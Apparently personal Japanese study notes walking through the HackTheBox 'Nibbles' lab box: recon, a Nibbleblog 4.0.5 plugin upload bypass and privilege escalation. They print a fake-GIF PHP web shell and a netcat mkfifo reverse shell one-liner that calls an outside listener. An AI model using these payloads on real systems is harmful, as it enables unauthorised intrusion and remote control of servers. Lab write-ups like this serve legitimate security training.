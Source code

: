 # nibbles
- nmap > port80が開放されているのでブラウザで確認  
- Burp Suite > Repeater   
	- Apachのバージョン、OS等がわかる  
	- コメントで`/nibbleblog deirectory`が確認できる  
- IP+/nibbleblogをアドレスバーに入力するとWeｂページがnibbleblogでてきていることがわかる  
- Nibbleblogを検索するとVer4.0.5がダウンロードできるのでダウンロードしてみる
```
grep -R | awk -F: '{print $1}' | uniq
```
>-R 再帰的
>-F フィールの区切り記号、次に区切りたい文字列  
>$1　最初の一致   
>uniq 重複している行を削除
- /admin/boot/rules/98-constants.bitの内容を確認
- /admin/boot/rules/98-constants.bitをアドレスバーに入力
	- version,name,release_data,buildが確認できる
- searchsploitでnibbleblogを検索
-  検索結果RubyファイルでExploitできそうだがMetasploitを使用しているので参照しているブログを見てみる
-  画像ファイルのアップロードが可能
-  プラグインシェルをアップロードしてこのディレクトリにアクセスしてログインする方法を見つける
-  admin.phpにアクセスする
-  update.phpにアクセスしてみるとリングがありupdateのURLがある
-  オープンディレクトリが表示されuser.xmlにユーザー名管理IDが取得できる
-  HydraでBFすると"Blacklist protection"でログインできなくなる
-  別の方法を探すローカルポートフォワーディングを実行
-  falafelででてきたssh keyを使ってssh接続を実施する(==なぜこれを使った？==)
```
ssh -i ../../falafel/root.key -L9000:10.10.10.75:80 10.10.10.73
```
※falafelは別のBox
- nibbleblogのサイトに行きインストール手順を確認する
- プラグインで画像がアップロードできるのでスクリプトを含んだ偽画像ファイルを作成する
```
GIF8;(gifのマジックナンバー)
<?php echo system($_REQUEST[`ipp`]); ?>
```
- ファイルのアップロード先を確認する(/nibbleblog/content/private/plugins/my_image)
- アドレスバーに
```
?ipp=whoami
```
でコマンド実行できる
- pentestmonkeyのnetcatのリバースシェルを利用する
- リスナーを起動しておく
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
>間違ったバージョンのnetcatがインストールされていても上記のコマンドでほとんどう機能する
- 初期シェルが取れる
- rootはsudo -lが使える　
- /usr/share/linux-exploit-suggester/linux-exploit-suggester.shを利用して特権昇格の情報を集める方法もある